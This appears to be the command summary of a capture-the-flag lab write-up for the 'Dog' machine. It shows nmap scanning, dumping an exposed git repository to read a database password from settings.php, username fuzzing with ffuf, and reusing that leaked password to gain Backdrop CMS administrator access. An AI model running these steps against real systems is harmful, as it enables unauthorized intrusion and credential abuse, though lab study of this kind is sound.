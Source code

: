
## 📝 Commands Summary

### 🔍 Phase 1: Network Reconnaissance

```bash
# 1. Fast scan of all ports
nmap -Pn -p- --min-rate=1000 -T4 10.10.11.58

# 2. Detailed scan of open ports
ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.11.58 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -Pn -p$ports -sC -sV 10.10.11.58
# → Ports 22 (SSH) and 80 (HTTP) open
```

### 🧩 Phase 2: Git Repository Extraction

```bash
# 1. git-dumper installation
python3 -m venv env
source env/bin/activate
pip install git-dumper

# 2. Repository extraction
git-dumper http://dog.htb/ dump

# 3. File restoration
cd dump
git restore .

# 4. settings.php analysis
cat settings.php
# → MySQL credentials: root:BackDropJ2024DS2024
```

### 🔎 Phase 3: User Enumeration

```bash
# User fuzzing via Backdrop aliases
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
-u "http://dog.htb/?q=accounts/FUZZ" -mc 403
# → Users found: john, tiffany
```

### 🔓 Phase 4: Backdrop CMS Connection

```bash
# Password reuse test
# URL: http://dog.htb/user/login
# User: tiffany
# Password: BackDropJ2024DS2024
# → Administrator access obtained!
```
